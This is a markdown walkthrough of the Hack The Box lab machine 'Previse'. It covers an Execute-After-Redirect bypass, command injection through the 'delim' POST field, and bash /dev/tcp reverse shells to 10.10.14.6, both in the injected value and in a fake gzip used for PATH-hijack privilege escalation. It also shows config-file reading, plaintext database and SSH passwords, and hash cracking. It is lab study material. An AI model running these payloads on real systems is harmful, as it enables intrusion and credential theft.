 # HTB: Previse

## 📌 Box Info
- **Name:** Previse
- **IP:** 10.10.11.104
- **OS:** [Linux](Linux)
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.104
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.11.104
```

---

## 🕵️ EAR Vulnerability (Execute After Redirect)
- Intercept `HTTP 302` redirect and change it to `200 OK` in Burp Suite.
- Burp ➝ Proxy ➝ Intercept Server Responses ➝ Enable ➝ Intercept Response ➝ Modify `302 Found` to `200 OK`

---

## 👤 Account Creation (via EAR Bypass)
- Navigate to `/accounts.php` using modified redirect bypass.
- Fill out user registration ➝ Login normally after creation.

---

## 📦 Download Site Source
- Navigate to `/files.php` and download `siteBackup.zip`
- Unzip to reveal all PHP source files.

---

## 🧪 Command Injection in [logs.php](HTTP)
### Without Source
- Interact with `file_logs.php`
- Modify POST request:
```bash
delim=comma;ping+-c+1+10.10.14.6
```

### With Source
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

---

## ⚙️ Gaining Reverse Shell (as www-data)
```bash
# Listener
nc -lnvp 443

# Burp ➝ Intercept POST ➝ Modify
POST /logs.php

delim=comma;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' #
```

### Shell Upgrade
```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
TERM=screen
```

---

## 🔍 Enumeration (as www-data)
```bash
cat /var/www/html/config.php
mysql -u root -p'mySQL_p@ssw0rd!:)'
```

### Dump User Hash
```sql
select * from accounts;
```

### Crack Hash
```bash
hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔐 Shell as m4lwhere (via SSH)
```bash
ssh m4lwhere@10.10.11.104
# password: ilovecody112235!
```

---

## 🔼 Root Escalation — Path Hijack
### Sudo Priv
```bash
sudo -l
```
```bash
(ALL) NOPASSWD: /opt/scripts/access_backup.sh
```

### Create Malicious gzip
```bash
cd /dev/shm
echo '#!/bin/bash' > gzip
echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' >> gzip
chmod +x gzip
export PATH=/dev/shm:$PATH

# Listener:
nc -lnvp 443

# Trigger
sudo /opt/scripts/access_backup.sh
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📚 Resources
- EAR Ref: OWASP Execute After Redirect
- SQLi INSERT Exploit: George Koniaris video
- Beyond Root:
  - Misconfigured `/etc/sudoers`
  - `secure_path` omitted ➝ Path Hijack vulnerability
